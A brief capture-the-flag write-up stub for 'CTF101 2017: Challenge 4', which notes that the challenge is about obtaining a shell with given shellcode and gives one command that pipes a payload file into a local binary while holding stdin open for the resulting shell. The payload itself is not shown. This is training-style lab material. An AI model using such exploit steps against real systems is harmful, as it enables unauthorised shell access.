 # CTF101 2017: Challenge 4

## Type of challenge

- Obtaining shell
- Shellcode (given)

---

## Exploit

```shell
(cat payload.in; cat) | ./seashells
```
